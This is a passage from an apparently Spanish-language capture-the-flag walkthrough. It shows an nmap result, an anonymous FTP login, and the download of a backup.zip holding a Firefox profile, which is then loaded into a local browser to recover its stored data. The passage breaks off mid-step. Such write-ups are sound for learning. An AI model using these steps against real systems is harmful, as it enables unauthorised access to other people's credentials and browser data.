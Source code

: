 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.91 seconds
```

Veremos que hay varios puertos abiertos, si entramos al puerto `80` veremos una pagina normal de `apache2`, pero nada interesante, por lo que vamos a meternos por el servicio `FTP` de forma anonima.

## FTP

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estaremos dentro, si listamos veremos lo siguiente:

```
229 Entering extended passive mode (|||58685|).
150 File status okay. About to open data connection.
-rw-r--r--   1 root     root      4442576 Sep 29  2023 backup.zip
226 Transfer complete.
```

Veremos un archivo `.zip` bastante interesante, por lo que vamos a descargarnoslo y descomprimirlo.

```shell
get backup.zip
```

Una vez que nos lo descarguemos lo descomprimiremos, echo esto veremos lo siguiente:

```shell
unzip backup.zip
```

Info:

```
drwxr-xr-x  3 root root    4096 Sep 29  2023 mozilla
```

Vemos que nos descomprime una carpeta de `mozilla`, tiene pinta de que es un `backup` de alguna configuracion o informacion del navegador `mozilla` las cuales puede tener algo interesante dentro.

Podriamos copiarnos el archivo que puede ser interesante y configurar un `profile` para abrirlo con dicho usuario con dicha informacion:

```shell
cp -r pe1jatah.default-esr /<PATH_USER>/.mozilla/firefox/
nano /<PATH_USER>/.mozilla/firefox/profiles.ini

#Dentro del nano
[ProfileX]
Name=Backup2023
IsRelative=1
Path=pe1jatah.default-esr
Default=0
```

Lo guardamos y ahora ejecutamos el siguiente comando para que se nos habra la seleccion de perfiles:
